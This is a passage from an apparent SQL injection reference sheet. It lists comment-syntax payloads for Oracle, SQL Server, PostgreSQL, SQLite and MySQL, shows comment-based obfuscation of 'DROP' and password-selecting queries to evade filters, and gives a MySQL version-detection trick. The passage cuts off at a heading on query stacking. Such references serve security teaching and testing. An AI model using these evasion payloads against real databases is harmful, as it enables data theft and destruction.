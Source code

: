 ## Comments
### Line Comments
| Applicability | Payload |
| - | - |
| Oracle, SQL Server, PostgreSQL, SQLite, MySQL | **--** |
| MySQL | **-- -** |
| | **#** |

### Inline Comments (For Obfuscation)
| Applicability | Payload | 
| - | - |
| Oracle, SQL Server, PostgreSQL, SQLite, MySQL | **/\*Comment\*/** | 
| MySQL | **/\*! MYSQL special comment format \*/** |

#### Example
Obfuscate the original query.
```SQL
DROP table_name;

<!-- becomes -->

DROP /*COMMENT*/ table_name;
<!-- OR -->
DR/**/OP /*COMMENT*/ table_name;
```

Removing spaces.
```SQL
SELECT pass FROM users;

<!-- becomes -->

SELECT/*ignore*/pass/*ignore*/FROM/*ignore*/users;
```

Detecting MySQL.
```SQL
/*! MYSQL special comment format */

SELECT /*!80027 1/0, */ 1 FROM tablename 
```
> Will throw an division by 0 error if MySQL version is higher than 8.0.27

## Batch Execution (Query Stacking)
Works only in MySQL, SQL Server & PostgreSQL.
